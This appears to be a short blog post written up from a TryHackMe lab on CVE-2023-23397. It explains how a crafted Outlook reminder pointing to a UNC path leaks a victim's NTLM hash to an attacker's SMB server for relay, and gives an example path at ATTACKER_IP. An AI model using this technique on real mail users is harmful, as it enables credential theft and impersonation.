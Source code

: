 ```yaml
---
layout: post
title: "Outlook NTLM Leak"
date: 2023-06-04 
categories: ["Hands-on", "TryHackMe"]
tags: "TryHackMe","CVE-2023-23397"
---
```


# [Outlook NTLM Leak](https://tryhackme.com/room/outlookntlmleak#)
## CVE-2023-23397

**Scenario:**
*The victim recieves a malicous email that redirects them to the attacker's SMB Server. This happens by busing CVE-2023-23397.*

The exploit happens by manipulating the parameter of the reminder sound path location. Simply changing the path wont do anything. the **PidLidReminderFileParameter** should point to **Universal Naming Convention (UNC)** path instead of a local file. **PidLidReminderOverride** should be configured to true to be able to override the default the confirgurations.

When the Victim connects to the attacker's SMB server, the victim's remote server would send the NTLM. The attacker can use the NTLMv2 hash to authenticate by using the relay attack. 

```bash
## Example: 
\\ATTACKER_IP\foo\bar.wav
```

 

